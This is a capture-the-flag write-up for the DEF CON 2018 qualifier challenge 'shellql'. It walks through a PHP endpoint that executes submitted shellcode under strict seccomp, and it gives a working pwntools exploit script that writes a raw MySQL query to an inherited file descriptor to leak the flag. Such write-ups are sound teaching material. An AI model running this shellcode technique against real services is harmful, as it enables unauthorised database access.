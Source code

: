 ```yaml
---
layout: post
title: shellql - DEF CON CTF Qualifier 2018
date: '2018-05-21 20:30:00'
---
```


> Do you even SQL? The flag is in the table `flag`
>  http://b9d6d408.quals2018.oooverflow.io
> 
> Author : adamd
> [shellme.so](https://github.com/o-o-overflow/chall-shellql/blob/master/public_files/shellme.so)

*118 points, 64 Solves, web/shellcode*

After visiting the link we are redirected to `/cgi-bin/index.php` which is a simple php-cgi script that seems to just take our post data and call the shellme function:

```php
$link = mysqli_connect('localhost', 'shellql', 'shellql', 'shellql');
if (isset($_POST['shell']))
{
  if (strlen($_POST['shell']) <= 1000)
  {
    echo $_POST['shell'];
    shellme($_POST['shell']);
  }
  exit();
}
```

Disassembling `shellme.so` reveals that `shellme` invokes the `shell_this` function, which is the following: 

```c
void shell_this(char* shellcode) {
  int len = strlen(shellcode);
  void *ptr = mmap(0, len, PROT_EXEC | PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE, -1, 0);
  void (*shell)();

  memcpy(ptr, shellcode, len);
  alarm(30);

  prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT);

  shell = (void (*)()) ptr;
  shell();

  return;
}
```

Snce seccomp has been setup in `SECCOMP_MODE_STRICT` mode, we only have read,write,exit and sigreturn. As the connection to mysql has already been opened, we can read and write straight the file descriptor to query the database. One gotcha is that we have to return a valid HTTP response otherwise apache will blow up with a 500 error.

A quick peak with wireshark to see what wire format of a mysql query reveals that has the query length (3 bytes), sequence id (1 byte), command (1 byte). Using a command of `3` for query we can build up what we need, using pwntools makes all writing the shellcode a breeze:

```python
#!/usr/bin/env python2
from pwn import *
import requests

context.arch = "amd64"
context.os = "linux"

host = "http://b9d6d408.quals2018.oooverflow.io/cgi-bin/"
html = """X-Powered-By: PHP/7.0.28-0ubuntu0.16.04.1\r\nContent-Type: text/html; charset=UTF-8\r\n\r\n<html><body>Hello World!</body></html>"""

query = "SELECT * from flag;"

shellcode = ""
shellcode += shellcraft.echo(p16(len(query)) + "\x00\x00\x03" + query , 4)
shellcode += shellcraft.read(4, 'rsp', 200)
shellcode += shellcraft.pushstr(html)
shellcode += shellcraft.write(1, 'rsp', 500)

data = {
  "shell": asm(shellcode) + "\x00"
}

resp = requests.post(host + "index.php", data=data)
print resp.text
```

Amoungst the random stack data returned is the flag:

`OOO{shellcode and webshell is old news, get with the times my friend!}`
